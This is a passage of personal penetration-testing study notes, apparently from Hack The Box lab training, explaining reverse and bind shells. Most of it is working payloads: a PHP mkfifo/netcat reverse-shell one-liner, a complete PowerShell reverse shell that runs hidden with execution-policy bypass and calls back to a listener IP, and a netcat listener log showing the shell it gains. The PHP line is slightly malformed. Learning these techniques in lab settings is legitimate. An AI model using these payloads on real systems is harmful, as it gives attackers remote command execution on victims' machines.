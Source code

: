💡 ***In essence, both commands above aim to achieve the same goal: establishing a reverse shell connection to a remote host. The second command is more complex and involves the use of named pipes and the*** ***`cat` command for communication between the shell process and the `nc` process. The choice of which command to use might depend on the specific context, the tools available on the target system and the preferences of the person executing the command.***


**IMPORTANT ❗️**

---

It is important to adapt the reverse shell code to the language you are dealing with. For ex the nibble machine in HTB we were dealing with PHP and so we leveraged **payloadallThings** or others to find the correct format for the reverse shell. as such the command below becomes:

`<? php system (rm /tmp/f;mkfifo /tmp/f;cat /tmp/f|/bin/sh -i 2>&1|nc 10.10.16.2 1234 >/tmp/f"); ?>`

---

Code: powershell

```powershell
powershell -NoP -NonI -W Hidden -Exec Bypass -Command New-Object System.Net.Sockets.TCPClient("10.10.10.10",1234);$stream = $client.GetStream();[byte[]]$bytes = 0..65535|%{0};while(($i = $stream.Read($bytes, 0, $bytes.Length)) -ne 0){;$data = (New-Object -TypeName System.Text.ASCIIEncoding).GetString($bytes,0, $i);$sendback = (iex $data 2>&1 | Out-String );$sendback2  = $sendback + "PS " + (pwd).Path + "> ";$sendbyte = ([text.encoding]::ASCII).GetBytes($sendback2);$stream.Write($sendbyte,0,$sendbyte.Length);$stream.Flush()};$client.Close()

```


Once connection is established, we should get the following:

```
Eli90@htb[/htb]$ nc -lvnp 1234listening on [any] 1234 ...
connect to [10.10.10.10] from (UNKNOWN) [10.10.10.1] 41572

id
uid=33(www-data) gid=33(www-data) groups=33(www-data)
```


💡 ***NOTICE IN REVERSE SHELL, WE USE TARGET **PORT**  WITH **ATTACKER’S IP*****


## Bind Shell

A bind shell will listen on a port on the remote host and bind that host's shell, i.e., `Bash` or `PowerShell`, to that port.

**pros**

- if connection is lost, we can connect back to it and get another connection

**cons**

- if bind shell command is stopped access will be lost

